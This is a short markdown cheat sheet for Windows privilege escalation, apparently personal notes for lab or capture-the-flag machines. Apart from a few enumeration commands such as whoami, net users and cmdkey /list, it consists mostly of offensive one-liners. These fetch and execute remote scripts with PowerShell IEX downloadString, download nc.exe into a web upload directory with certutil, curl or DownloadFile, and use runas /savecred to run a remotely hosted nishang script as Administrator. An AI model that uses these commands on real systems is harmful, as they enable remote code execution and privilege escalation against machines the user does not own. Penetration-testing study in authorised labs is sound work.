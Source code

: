# Windows Priviledge Escalation

------------------------------------------------------

### Initial Commands
`whoami`
 
`whoami /prev`

`net users`

`net users Administrator`

`cmdkey /list`

`systeminfo`

`netstat`

### Downloading Files 
1. `powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.13:8000/jaws-enum.ps1')` (Use this when u dont 
    want to download the file to the disk)

2. `powershell IEX(New-Object System.Net.WebClient).DownloadFile("http://10.10.14.11:8000/
	nc.exe","C:\\xampp\htdocs\gym\upload\nc.exe")`

3. `certutil -urlcache -split -f http://10.10.14.11:8000/nc.exe`

4. `curl http://10.10.14.11:8000/nc.exe`

### Other Commands and tips
`runas /user:Administrator /savecred "powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.13:8000/nishang2.ps1')"`


